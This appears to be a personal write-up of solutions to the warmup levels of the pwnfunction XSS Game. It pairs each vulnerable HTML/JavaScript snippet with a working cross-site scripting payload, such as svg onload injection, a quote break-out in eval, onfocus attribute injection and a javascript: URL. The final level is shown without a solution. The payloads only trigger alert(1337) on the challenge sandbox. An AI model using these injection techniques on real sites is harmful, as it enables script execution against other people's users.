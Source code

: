 # pwnfunction - XSS Game (Solutions)

## Warmups

### Ma Spaghet!

```html
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

My solution: `https://sandbox.pwnfunction.com/warmups/ma-spaghet.html?somebody=<svg>onload=alert(1337)>`

### Jefff

```html
<h2 id="maname"></h2>
<script>
    let jeff = (new URL(location).searchParams.get('jeff') || "JEFFF")
    let ma = ""
    eval(`ma = "Ma name ${jeff}"`)
    setTimeout(_ => {
        maname.innerText = ma
    }, 1000)
</script>
```

- I tried concatenation where `%2b` is `+`: `https://sandbox.pwnfunction.com/warmups/jefff.html?jeff=abc"%2b"xyz`
- Then got a working payload: `https://sandbox.pwnfunction.com/warmups/jefff.html?jeff="%2balert(1337)%2b"`
- Intended solution: `"-alert(1337)-"`

### Ugandan Knuckles

```html
<div id="uganda"></div>
<script>
    let wey = (new URL(location).searchParams.get('wey') || "do you know da wey?");
    wey = wey.replace(/[<>]/g, '')
    uganda.innerHTML = `<input type="text" placeholder="${wey}" class="form-control">`
</script>
```

My solution (same as rxss-angles-encoded in portswigger): `" autofocus onfocus="alert(1337)`
Intended solution: `"onfocus=alert(1337) autofocus="`

#### Ricardo Milos

```html
<form id="ricardo" method="GET">
    <input name="milos" type="text" class="form-control" placeholder="True" value="True">
</form>
<script>
    ricardo.action = (new URL(location).searchParams.get('ricardo') || '#')
    setTimeout(_ => {
        ricardo.submit()
    }, 2000)
</script>
```

- Spent a lot of time hacking the wrong parameter `milos` instead use `ricardo`.
- My solution: `https://sandbox.pwnfunction.com/warmups/ricardo.html?ricardo=javascript:alert(1337)`
- Intended solution: `javascript:alert(1337)`

#### Ah That's Hawt

```html
<h2 id="will"></h2>
<script>
    smith = (new URL(location).searchParams.get('markassbrownlee') || "Ah That's Hawt")
    smith = smith.replace(/[\(\`\)\\]/g, '')
    will.innerHTML = smith
</script>
```



